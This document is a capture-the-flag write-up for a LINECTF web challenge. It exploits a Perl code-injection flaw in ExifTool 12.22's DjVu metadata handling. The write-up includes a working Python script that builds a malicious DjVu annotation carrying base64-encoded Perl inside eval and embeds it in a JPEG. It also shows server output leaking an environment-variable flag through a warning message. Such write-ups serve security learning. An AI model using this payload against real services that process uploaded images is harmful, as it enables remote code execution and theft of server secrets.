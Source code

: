 Though there are still many approaches to get flag, here we use a small trick to do this "elegantly".

From the exploiting script we can notice that the vulnerability is code injection rather than command execution in fact, and RCE is achieved by invoking `system` function.

Hence we have the capability to execute perl code in an "eval" context.

```python
#!/usr/bin/env python3

import base64
import subprocess

code = 'perl code here'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"
payload = payload + base64.b64encode( code.encode() )
payload = payload + b"'))};\")"

payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()

subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg']) 

```

If we inject some mess code that would throw a warning, for example, use `code = '$a=$a+1'` and upload the malicious image, the web page will produce following output of exif info:

```
SourceFile: tmp/ac76c800-c203-4813-94ca-934b7bc8da1b
ExifTool:ExifToolVersion: 12.22
ExifTool:Warning: RawConv HasselbladExif: Use of uninitialized value $Image::ExifTool::DjVu::a in addition (+)
File:FileName: ac76c800-c203-4813-94ca-934b7bc8da1b
...
```

Note that the warning message is printed as an entry of exif info!

Then things go easy. Just use the builtin `warn` function to print the flag as a warning message. Since the flag is stored as an environment variable, the payload is just `use Env; warn $FLAG;`.

And then the flag will be shown on the web page.

```
SourceFile: tmp/9ce3c18c-3301-49a9-822d-9f6789171553
ExifTool:ExifToolVersion: 12.22
ExifTool:Warning: RawConv HasselbladExif: LINECTF{2a38211e3b4da95326f5ab593d0af0e9}
File:FileName: 9ce3c18c-3301-49a9-822d-9f6789171553
```
